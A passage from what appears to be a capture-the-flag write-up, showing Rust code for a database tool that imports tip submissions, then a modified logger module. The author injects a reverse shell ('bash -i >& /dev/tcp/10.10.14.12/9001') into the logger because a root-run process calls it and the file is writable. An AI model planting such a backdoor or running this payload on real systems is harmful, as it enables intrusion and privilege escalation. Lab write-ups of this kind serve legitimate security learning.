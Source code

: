 ```rust
        ).expect("Query failed.");
    for e in selected_entries {
        println!("[{}] {} ===> {} | {}",
                 e.timestamp, e.source, e.target, e.data);
    }
}

fn pull_indeces(conn: &mut mysql::PooledConn, directory: &str) {
    let paths = fs::read_dir(directory)
        .unwrap()
        .filter_map(|entry| entry.ok())
        .filter(|entry| entry.path().extension().unwrap_or_default() == "txt")
        .map(|entry| entry.path());

    let stmt_select = conn.prep("SELECT hash FROM tip_submissions WHERE hash = :hash")
        .unwrap();
    let stmt_insert = conn.prep("INSERT INTO tip_submissions (timestamp, data, hash) VALUES (:timestamp, :data, :hash)")
        .unwrap();

    let now = Utc::now();

    for path in paths {
        let contents = fs::read_to_string(path).unwrap();
        let hash = Sha256::digest(contents.as_bytes());
        let hash_hex = hex::encode(hash);

        let existing_entry: Option<String> = conn.exec_first(&stmt_select, params! { "hash" => &hash_hex }).unwrap();
        if existing_entry.is_none() {
            let date = now.format("%Y-%m-%d").to_string();
            println!("[+] {}\n", contents);
            conn.exec_drop(&stmt_insert, params! {
                "timestamp" => date,
                "data" => contents,
                "hash" => &hash_hex,
                },
                ).unwrap();
        }
    }
    logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");

}
```


Here we see that the root command is running the `pull` option which is then performing some SQL queries and logging it. Since we have write permissions to the logger, I try to code in some form of shell command execution:

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let _output = Command::new("bash")
        .args(&["-c", "bash -i >& /dev/tcp/10.10.14.12/9001 0>&1"])
        .output()
        .expect("Failed to execute the command.");
```